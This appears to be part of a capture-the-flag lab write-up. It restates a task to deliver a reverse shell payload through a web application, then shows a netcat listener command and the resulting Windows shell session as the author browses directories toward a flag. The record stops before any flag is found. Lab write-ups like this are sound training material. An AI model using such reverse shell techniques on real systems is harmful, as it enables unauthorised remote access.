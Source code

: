 In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on this [website](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).


What is the flag? Hint: Check the user desktop folder for the flag!
(The easiest way to get reverse-shell is by applying the technique discussed in Task 4, which creates a malicious HTA link using Metasploit.)

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.129.49] 49739
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9855-3AC5

 Directory of C:\

11/27/2021  01:36 PM    <DIR>          app
07/16/2016  04:47 AM    <DIR>          PerfLogs
10/25/2021  11:49 AM    <DIR>          Program Files
10/29/2021  02:18 AM    <DIR>          Program Files (x86)
10/21/2021  02:37 AM    <DIR>          Users
10/25/2021  08:04 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  36,113,199,104 bytes free

C:\>cd Users
cd Users

C:\Users>cd Desktop
cd Desktop
The system cannot find the path specified.

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9855-3AC5

 Directory of C:\Users

10/21/2021  02:37 AM    <DIR>          .
10/21/2021  02:37 AM    <DIR>          ..
12/09/2016  06:10 PM    <DIR>          defaultuser0
12/09/2016  06:15 PM    <DIR>          Public
09/10/2022  09:11 AM    <DIR>          thm
               0 File(s)              0 bytes
               5 Dir(s)  36,113,199,104 bytes free

C:\Users>cd thm
cd thm

C:\Users\thm>dir
dir
```